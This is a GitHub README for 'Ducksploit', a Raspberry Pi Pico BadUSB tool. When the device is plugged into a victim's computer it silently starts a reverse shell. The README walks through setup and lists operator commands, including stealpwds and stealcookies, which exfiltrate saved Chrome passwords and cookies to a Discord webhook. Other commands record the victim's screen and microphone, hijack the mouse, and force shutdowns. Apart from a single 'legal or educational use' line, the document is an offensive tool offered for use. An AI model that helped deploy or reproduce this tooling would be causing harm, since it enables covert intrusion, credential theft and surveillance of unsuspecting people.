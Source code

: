 ![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")

 # Ducksploit
 ![](https://img.shields.io/badge/Version-1.0.3-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT)


## Install Ducksploit

#### Hacker
###### setup raspberry pico
   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in PICO SETUP folder
   4. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
   5. Move CircuitPython.uf2 file in the E:\ usb port (port of your pico)
now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
   6. Erase all the content of your raspberry pico and copy 'copy' folder into him
   7. Write myip.txt and write your own IP
   8. Now your raspberry pico is full configured , unplugg your pico and done!


###### setup ducksploit commands




   1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
   2. Extract downloaded zip file
   3. Go in SERVER folder
   4. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
   5. Install python requirements using 'installrequirements.bat' script
   6. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
   7. Ducksploit is now installed on your PC :smile:
   8. Type 'ducksploit' in the cmd
   9. Config your ip using 'ipconfig' (your ip)
   10. Wait victim's connection using 'wait' command
   11. Have fun with ducksploit hacking commands (type help to get commands list)

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use :warning:

## Uninstall Ducksploit

   1. type 'ds uninstall' in cmd
   2. Done  :smile:


## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |

#### Config
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| ipconfig  | ipconfig (your ipv4) | config your ip |

#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| register | register | reconfigure your account |
| accountinfo | accountinfo | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| mousescroll | mousescroll (int between -1000 and 1000) | make the user scroll by int pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg [-file, -text] (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content) |
| createfile | createfile (text) | set the content of line1 of msg command |

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| exit         | exit        | exit from the ducksploit treminal |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
